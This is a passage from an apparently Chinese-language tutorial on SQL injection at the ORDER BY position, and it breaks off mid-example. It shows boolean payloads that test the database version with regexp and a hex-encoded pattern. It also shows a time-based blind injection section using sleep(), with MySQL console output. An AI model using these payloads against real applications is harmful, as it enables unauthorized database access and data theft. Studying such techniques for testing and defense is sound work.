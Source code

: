 

```
order by id^(select (select version()) regexp &#39;^5&#39;);order by id^(select (select version()) regexp 0x5e35);  # 0x5e35 &lt;-&gt; hex(&#39;^5&#39;) # 注意 regexp 在不同版本下对十六进制匹配会有些微小的差异
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165815046.png)

### 6、时间盲注

order by会根据数据记录数把延时放大，比如sleep 1秒，有3条记录，则总共延时 3秒。

```mysql
mysql&gt; select * from users order by sleep(1);
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
| id | name   | pass     | age  | area      |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
|  1 | test1  | 123456   |   18 | beijing   |
|  2 | test2  | 543210   |   20 | shanghai  |
|  3 | user1  | qwer1234 |   28 | guangzhou |
|  4 | aduser | 123456   |   10 | beijing   |
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
4 rows in set (4.02 sec)

mysql&gt; select * from users order by id,if((substr(version(),1,1)=8),sleep(1),0);
&#43;----&#43;--------&#43;----------&#43;------&#43;-----------&#43;
```